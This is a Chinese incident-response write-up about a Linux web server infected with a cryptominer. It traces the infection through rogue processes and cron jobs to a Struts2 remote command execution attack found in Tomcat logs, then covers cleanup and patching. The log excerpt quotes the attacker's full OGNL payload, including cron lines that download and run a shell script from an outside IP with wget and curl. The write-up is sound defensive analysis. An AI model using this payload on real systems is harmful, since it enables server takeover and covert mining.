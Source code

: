 
# 0x00 前言
随着虚拟货币的疯狂炒作，利用挖矿脚本来实现流量变现，使得挖矿病毒成为不法分子利用最为频繁的攻击方式。新的挖矿攻击展现出了类似蠕虫的行为，并结合了高级攻击技术，以增加对目标服务器感染的成功率，通过利用永恒之蓝（EternalBlue）、web攻击多种漏洞（如Tomcat弱口令攻击、Weblogic WLS组件漏洞、Jboss反序列化漏洞、Struts2远程命令执行等），导致大量服务器被感染挖矿程序的现象 。


# 0x01 应急场景
某天，安全管理员在登录安全设备巡检时，发现某台网站服务器持续向境外IP发起连接，下载病毒源：

![linux-12-1.png](_img\05-应急响应/1656921710268-3ae710e9-131d-4f2b-8970-00aa6c653a04.png)


# 0x02 事件分析

#### A、排查过程
登录服务器，查看系统进程状态，发现不规则命名的异常进程、异常下载进程 :<br />![linux-12-2.png](_img\05-应急响应/1656921729697-23d27046-f5a0-4a17-baa0-3334da53b700.png)

![linux-12-3.png](_img\05-应急响应/1656921734289-02b5cf79-161b-40e8-8a32-e83ed5aa5b66.png)

下载logo.jpg，包含脚本内容如下：<br />![linux-12-4.png](_img\05-应急响应/1656921739782-cda8b500-6ed5-4298-aece-862ffdf72dea.png)

到这里，我们可以发现攻击者下载logo.jpg并执行了里面了shell脚本，那这个脚本是如何启动的呢？

通过排查系统开机启动项、定时任务、服务等，在定时任务里面，发现了恶意脚本，每隔一段时间发起请求下载病毒源，并执行 。<br />![linux-12-5.png](_img\05-应急响应/1656921749489-8e6b0470-8990-4861-b31d-c98ef9bff5e6.png)


#### B、溯源分析
在Tomcat log日志中，我们找到这样一条记录：<br />![linux-12-6.png](_img\05-应急响应/1656921757055-377239b9-f016-4b8e-a825-eefa6efbed0e.png)


对日志中攻击源码进行摘录如下：<br />`{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget -O - -q http://5.188.87.11/icons/logo.jpg|sh\n*/19 * * * * curl http://5.188.87.11/icons/logo.jpg|sh" | crontab -;wget -O - -q http://5.188.87.11/icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}`

可以发现攻击代码中的操作与定时任务中异常脚本一致，据此推断黑客通过Struct 远程命令执行漏洞向服务器定时任务中写入恶意脚本并执行。


#### C、清除病毒
1、删除定时任务:<br />![linux-12-7.png](_img\05-应急响应/1656921766104-cf344005-adf3-4b4e-b4fe-99689c21d422.png)

2、终止异常进程:<br />![linux-12-8.png](_img\05-应急响应/1656921770914-d1dda73b-351b-43aa-8f27-b8dc69bb6a3a.png)


#### D、漏洞修复

	升级struts到最新版本


# 0x03 防范措施
针对服务器被感染挖矿程序的现象，总结了几种预防措施：
```
1、安装安全软件并升级病毒库，定期全盘扫描，保持实时防护
2、及时更新 Windows安全补丁，开启防火墙临时关闭端口
3、及时更新web漏洞补丁，升级web组件
```
